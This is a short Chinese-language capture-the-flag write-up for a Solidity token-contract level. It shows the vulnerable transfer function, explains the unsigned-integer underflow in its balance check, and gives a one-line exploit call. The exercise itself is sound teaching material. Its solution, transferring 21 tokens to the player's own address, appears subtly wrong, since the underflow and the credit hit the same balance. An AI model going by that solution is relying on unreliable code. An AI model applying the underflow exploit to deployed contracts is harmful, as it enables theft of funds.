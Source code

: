 # 说明
此级别的目标是让您破解下面的基本代币合约。
一开始你会得到 20 个代币，如果你设法拿到任何额外的代币，你就会通过关卡。最好是非常大量的代币。


```
mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

```
关键代码在于存储`mapping(address => uint) balances;`使用无符号数，然后require和转账都使用了减法 `balances[msg.sender] - _value`,所以利用溢出的特点
例如
```
    uint8 A = 20; // (max storable # is 255)
    uint8 B = 21;

    A - B ---> 255
```

# 解决方案

```
 await   contract.transfer(player, 21)
```

